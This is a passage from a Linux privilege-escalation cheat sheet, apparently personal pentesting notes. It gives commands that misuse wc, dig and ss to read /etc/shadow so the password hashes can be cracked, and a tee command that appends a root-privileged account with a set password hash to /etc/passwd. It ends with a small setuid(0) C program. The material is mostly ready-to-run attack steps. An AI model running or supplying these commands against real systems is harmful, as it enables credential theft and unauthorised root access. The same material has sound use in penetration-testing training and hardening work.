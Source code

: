 your will get password hash


###### 4.9 wc
check permissions 

Then read /etc/shadow file 

```bash
wc --files0-from=/etc/shadow 
```

grep password of hash and crack it


###### 4.10 dig

check permissions 

Read /etc/shadow file 
```bash
dig -f /etc/shadow 
```


###### 4.11 ss

read /etc/shadow
```bash
ss -a -F /etc/shadow 
```

It will read only one line 


###### 4.12 tee
edit file using tee
```bash
echo 'root1:$1$NBIvZax5$jv3IXEGcWtVxsfayNTv9B0:0:0:root:/root:/bin/bash' | tee -a /etc/passwd 
```

It will append the provided contain into /etc/passwd file 




### Custom binary
#### 1. make custom binary

```c title:user_id.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
	
	setuid(0);
	setgid(0);

	system("whoami");

	return 0;
}
```

